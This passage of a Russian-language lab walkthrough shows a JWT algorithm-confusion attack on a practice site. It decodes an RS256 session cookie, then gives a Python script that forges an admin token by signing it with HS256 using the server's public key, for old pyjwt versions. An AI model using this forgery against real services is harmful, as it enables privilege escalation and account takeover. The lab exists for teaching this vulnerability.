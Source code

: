 
### Шаг 2

Берем значение session_rsa cookie на http://jwt_insecure.lab/index_2:

![](img/rshs_2.png)

```
session_rsa=eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJpc19hZG1pbiI6ZmFsc2V9.iHlggCS_Znz50o0DlfP8YiFTUkQF8X24WlnUwZu6mxgsYHQm8NNibibvhGg1PiSFkbkobtjB3MpkK4UvZEzZS9f7B4D6Z4xneyBeXer2dbyE8tziTZb31RKjYQMOgSDTUTCaj9r04tTX-IrDqC-Q7YR0aau9GCT4nWiLlVnSlNg
```

Если его декодировать:

```
- Header: eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9 - {"typ":"JWT","alg":"RS256"}
- Payload: eyJ1c2VybmFtZSI6InVzZXIiLCJpc19hZG1pbiI6ZmFsc2V9 - {"username":"user","is_admin":false}
- Signature: iHlggCS_Znz50o0DlfP8YiFTUkQF8X24WlnUwZu6mxgsYHQm8NNibibvhGg1PiSFkbkobtjB3MpkK4UvZEzZS9f7B4D6Z4xneyBeXer2dbyE8tziTZb31RKjYQMOgSDTUTCaj9r04tTX-IrDqC-Q7YR0aau9GCT4nWiLlVnSlNg
```

Для генерации нового session_rsa cookie подписанной public ключом, используя код:

```python
# important: pyjwt version <= 0.4.2
import jwt

file = open('public.pem', 'r').read() # public key

print(jwt.encode({'username': 'user', 'is_admin': True}, # изменяем значение is_admin
        key=file, 
        algorithm='HS256') # меняем с RS256 на HS256
        .decode())
```

Подставляем полученный токен в cookie

![](img/rshs_3.png)
